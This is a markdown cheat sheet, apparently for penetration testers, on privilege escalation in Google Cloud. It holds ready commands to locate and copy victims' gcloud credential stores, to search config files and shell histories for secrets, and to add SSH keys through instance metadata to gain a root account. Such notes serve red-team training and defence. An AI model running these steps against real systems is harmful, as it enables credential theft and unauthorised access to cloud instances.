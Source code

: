 # Privilege Escalation
## Index
* [General](#General)
* [Getting Credentials](#Getting-credentials)
  * [Gcloud credentials](#Gcloud-credentials)
  * [Google tokens](#Google-tokens) 
  * [Web config and App config files](#Web-config-and-App-config-files)
  * [Internal repositories](#Internal-repositories)
  * [Command history](#Command-history)
* [Execute commands on VM's](#Execute-commands-on-VM's)
* [Bucket access](#Bucket-access)
* [Metadata server](#Metadata-server)

## General
- Google Cloud Platform has 2 user types
  - User Accounts 
    - Traditional user access with password 
  - Service Accounts 
    - Don’t have passwords 
    - Every GCP project has a “Default” service account
    - Default will get bound to instances if no other is set
    - EVERY process running on the instance can authenticate as the service account
- Got shell on a compute instance?
- The default service account can access EVERY storage bucket in a project

## Getting credentials
### Gcloud credentials
- Gcloud stores creds in ~/.config/gcloud/credentials.db
```
sudo find /home -name "credentials.db
```

### Auth as compromised user
- Copy gcloud dir to your own home directory to auth as the compromised user
```bash
sudo cp -r /home/username/.config/gcloud ~/.config
sudo chown -R currentuser:currentuser ~/.config/gcloud
gcloud auth list
```

### Google tokens
-  Google JSON Tokens and credentials.db
-  JSON tokens typically used for service account access to GCP
-  If a user authenticates with gcloud from an instance their creds get stored here ```~/.config/gcloud/credentials.db```
```
sudo find /home -name "credentials.db"
```

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog
  
### Command history
- Look through command history
- ```~/.bash_history`` or ```%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
```


## Execute commands on VM's
- Can connect with gcloud ssh command, command can be retrieved from the portal in VM instances, remote access --> View gcloud command, looks like:
```
gcloud beta compute ssh --zone "us-east1-b" "test-instance-1" --project "test-gcloud-project"
```

## Bucket access
#### Check if user has default service account access
- Look for the standard default service account name that look like: 
  - PROJECT_NUMBER-compute@developer.gserviceaccount.com
  - PROJECT_ID@appspot.gserviceaccount.com
- Use service account to access buckets looking for other creds or sensitive data
```
gcloud config list
```

## Metadata server
- Metadata  endpoint on instances at 169.254.169.254
- Any public SSH keys in the metadata server get an account with root access setup
- If you can set a public key on the metadata server it will setup a brand new Linux account for you on the instance
- Need default perms set to “full access to Cloud APIs” or compute API access
  - Or… custom IAM perms: 
    - compute.instances.setMetadata
    - compute.projects.setCommonInstanceMetadata

### Create SSH key for a new username
```
ssh-keygen -t rsa -C "<USER>" -f ./<FILENAME>.key -P ""
```

#### Copy the username and key data into a file called metadata.txt in the following format:
```
<USERNAME>:<public key data in usernamekey.pub>
```

#### Update the instance metadata
```
gcloud compute instances add-metadata <instance name> --metadata-from-file ssh-keys=metadata.txt
```

#### SSH into the machine
- Now when the daemon runs it will add a new user with root privileges. Use your newly generated SSH key to SSH in.
